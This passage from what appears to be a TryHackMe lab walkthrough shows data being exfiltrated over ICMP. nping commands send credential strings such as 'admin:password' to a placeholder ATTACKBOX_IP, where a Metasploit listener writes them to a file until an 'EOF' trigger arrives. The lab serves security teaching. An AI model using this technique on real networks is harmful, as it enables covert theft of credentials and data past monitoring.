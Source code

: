 We sent one ICMP packet using the nping command with --data-string argument. We specify the trigger value with the file name BOFfile.txt, set by default in the Metasploit framework. This could be changed from Metasploit if needed!

Now check the AttackBox terminal. If everything is set correctly, the Metasploit framework should identify the trigger value and wait for the data to be written to disk. 

Let's start sending the required data and the end of the file trigger value from the ICMP machine.

```
Sending the Data and the End of the File Trigger Value

           
                
thm@icmp-host:~# sudo nping --icmp -c 1 ATTACKBOX_IP --data-string "admin:password"
    
Starting Nping 0.7.80 ( https://nmap.org/nping ) at 2022-04-25 23:23 EEST
SENT (0.0312s) ICMP [192.168.0.121 > ATTACKBOX_IP Echo request (type=8/code=0) id=14633 seq=1] IP [ttl=64 id=13497 iplen=42 ]
RCVD (0.0328s) ICMP [ATTACKBOX_IP > 192.168.0.121 Echo reply (type=0/code=0) id=14633 seq=1] IP [ttl=63 id=17031 iplen=42 ]
RCVD (0.0703s) ICMP [ATTACKBOX_IP > 192.168.0.121 Echo reply (type=0/code=0) id=14633 seq=1] IP [ttl=31 id=41138 iplen=30 ]
    
Max rtt: 39.127ms | Min rtt: 1.589ms | Avg rtt: 20.358ms
Raw packets sent: 1 (42B) | Rcvd: 2 (72B) | Lost: 0 (0.00%)
Nping done: 1 IP address pinged in 1.06 seconds 
    
thm@icmp-host:~# sudo nping --icmp -c 1 ATTACKBOX_IP --data-string "admin2:password2"
    
Starting Nping 0.7.80 ( https://nmap.org/nping ) at 2022-04-25 23:24 EEST
SENT (0.0354s) ICMP [192.168.0.121 > ATTACKBOX_IP Echo request (type=8/code=0) id=39051 seq=1] IP [ttl=64 id=32661 iplen=44 ]
RCVD (0.0358s) ICMP [ATTACKBOX_IP > 192.168.0.121 Echo reply (type=0/code=0) id=39051 seq=1] IP [ttl=63 id=18581 iplen=44 ]
RCVD (0.0748s) ICMP [ATTACKBOX_IP > 192.168.0.121 Echo reply (type=0/code=0) id=39051 seq=1] IP [ttl=31 id=2149 iplen=30 ]
    
Max rtt: 39.312ms | Min rtt: 0.371ms | Avg rtt: 19.841ms
Raw packets sent: 1 (44B) | Rcvd: 2 (74B) | Lost: 0 (0.00%)
Nping done: 1 IP address pinged in 1.07 seconds 
    
thm@icmp-host:~# sudo nping --icmp -c 1 ATTACKBOX_IP --data-string "EOF"
    
Starting Nping 0.7.80 ( https://nmap.org/nping ) at 2022-04-25 23:24 EEST
SENT (0.0364s) ICMP [192.168.0.121 > ATTACKBOX_IP Echo request (type=8/code=0) id=33619 seq=1] IP [ttl=64 id=51488 iplen=31 ]
RCVD (0.0369s) ICMP [ATTACKBOX_IP > 192.168.0.121 Echo reply (type=0/code=0) id=33619 seq=1] IP [ttl=63 id=19671 iplen=31 ]
RCVD (0.3760s) ICMP [ATTACKBOX_IP > 192.168.0.121 Echo reply (type=0/code=0) id=33619 seq=1] IP [ttl=31 id=1003 iplen=36 ]
    
Max rtt: 339.555ms | Min rtt: 0.391ms | Avg rtt: 169.973ms
Raw packets sent: 1 (31B) | Rcvd: 2 (67B) | Lost: 0 (0.00%)
Nping done: 1 IP address pinged in 1.07 seconds
thm@icmp-host:~#
 
```
